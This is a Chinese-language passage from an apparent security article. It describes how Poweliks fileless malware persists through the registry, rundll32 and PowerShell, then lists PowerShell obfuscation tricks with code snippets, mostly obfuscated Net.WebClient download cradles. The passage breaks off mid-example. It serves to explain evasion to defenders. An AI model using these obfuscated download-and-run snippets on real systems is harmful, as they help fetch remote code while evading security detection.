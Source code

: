 这个注册表项使用合法的 rundll32.exe 来执行一个嵌入注册表键的小型 Javascript 代码。这个 Javascript 使用一个 WScript 对象来解密 powershell 脚本从其他的键上，并运行它们。 

Powershell 加载一个 watchdog DLL 和其它的 payloads，这些技术准许 poweliks 在计算机上保持活跃状态，而不需要在磁盘上写入普通文件，那样会将它暴露与传统安全工具的检测中。 

![](/img/hack/powershell/1510019333269.png)

> (Default)值加载并解密”a”值 
> “a”值 javascript 释放 powershell 脚本 
> Powershell 解密 Watchdog DLL 
> Watchdog DLL 使用 rundll.exe 加载，注入一个进程并保持注册表感染值存在。 

## OBFUSCATION(混淆) 

### 混淆方法 

脚本很容易混淆，简单的随机变量名和字符串串联往往足以欺骗基本的基于静态签名匹配的检测软件。使用 powershell 攻击者可以很多丰富的混淆技巧。Daniel  Bohannon 在 Derbycon     2016 对混淆方法进行了精彩的讨论(https://www.youtube.com/watch?v=P1lkflnWb0I),它他写了一个混淆模块Invoke-Obfuscation.这些方法的大多数都是自动化的。下面是一些讨论的混淆方法的列表: 
- 混合大小写，因为命令是不区分大小写的。 例子：`(neW-oBjEct system.NeT.WeBclieNt).dOWNloadfile `
- “GET-”可以省略，如果没有指定的话，它会自动添加到命令上。例子：`Get-command` 同 Command 功能一样。 
- “System.”可以被省略，如果没有指定，他也会自动添加到对象上。例子：`System.Net.Webclient` 同于 Net.WebClient 字符串可以串联，里面可以包含变量，准许单双引号。 
- 例子：`(New-Object Net.WebClient).DownloadString(“ht”+’tp://’+$url) `
- 可以在命令的各部分插入空白 。例子：`( New-Object Net.WebClient ).DownloadString( $url ) `
- 多个命令可以用来做相同的事情 。例子：`DownloadString` 可以替换为 OpenRead 或者 `Invoke-WebRequest `
- 对象可以设置在变量里，可以在后面命令中使用 。例子：`$webcl=New-Object Net.Webclient;$webcl.DownloadString($url)` 
- 成员参数可以使用单双引号 。例子：’DownloadFile’ 
- 有例外 14 个特殊情况，转义字符 (` )可以在字符前使用，结果没有任何影响 。
- 例子：```(new-object net.webclient).”d`ownl`oa`dstr`in`g”($url) 
Get-Command``` 可以用于搜索命令，并返回一个对象，- - 可以用&或.来调用 .例子：&(Get-Command New-Ob*) 
- 很多命令可以调用别名来使用 。例子：GCM 可以代替 Get-Command 
- 管道符|可以用来改变命令行上的顺序 
- .Invoke()可以用来取代 Invoke-Command 。例子：(New-Object Net.WebClient).DownloadString.invoke($url) 
- 有些参数可以用他们的数字替换 。例子：”-window 1” 可以代替”-window hidden” 
- Powershell 1.0 的语法也可以使用 。例子：Scriptblock conversion 
- 可以用编码字符(hex,ASCI,octal)替换字符串。例子：[char]58 为”:” 
- 应用字符串操作，可以进行任意分隔替换，两次翻转字符串 。例子： `(New-Object Net.WebClient).Downloadstring((http://myGoodSite.tld –replace “Good” 
